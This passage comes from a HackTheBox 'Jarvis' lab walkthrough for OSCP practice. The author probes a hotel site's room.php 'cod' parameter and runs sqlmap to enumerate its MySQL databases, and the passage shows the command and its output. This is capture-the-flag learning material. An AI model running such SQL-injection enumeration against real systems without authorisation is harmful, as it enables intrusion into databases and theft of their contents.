When clicking on a hotel, I get forwarded to a page like this: [http://10.10.10.143/room.php?cod=x](http://10.10.10.143/room.php?cod=1). This might be vulnerable to a SQL injection, which I will test later. 

### Port 64999

---

When I visit the web page on port 64999, it shows me that I'm banned:

![Untitled](/assets/images/2022-02-09-jarvis/Untitled1.png)

The gobuster scan for directories as well as the vhost scan did not find anything. I tried to access the webpage with the new domain name found, but that didn't work as well. So I downloaded the page:

```bash
┌──(user㉿KaliVM)-[/hackthebox/oscp-prep/jarvis]
└─$ cat index.html 
Hey you have been banned for 90 seconds, don't be bad
```

The page could be downloaded because I have the same problem here.

# Exploitation

---

## Checking For SQL Injection

---

I check if the parameter `cod` is vulnerable by using sqlmap (I know that SQLMap is not allowed in the OSCP exam, but I struggle with the manual exploitation, so I use the automated tool this time):

```bash
┌──(user㉿KaliVM)-[/hackthebox/oscp-prep/jarvis]              
└─$ sqlmap –u http://jarvis.htb/room.php?cod=1 --dbs --batch                          
        ___                                                  
       __H__    
 ___ ___[.]_____ ___ ___  {1.5.8#stable}                             
|___|_  ["]_|_|_|__,|  _|                  
      |_|V...       |_|   http://sqlmap.org                       
                                                    
                                      
[*] starting @ 08:55:43 /2021-09-06/
---snip---
[08:56:17] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Debian 9 (stretch)
web application technology: PHP, Apache 2.4.25
back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)
[08:56:17] [INFO] fetching database names
[08:56:18] [INFO] retrieved: 'hotel'
[08:56:18] [INFO] retrieved: 'information_schema'
[08:56:18] [INFO] retrieved: 'mysql'
[08:56:19] [INFO] retrieved: 'performance_schema'
available databases [4]:  
```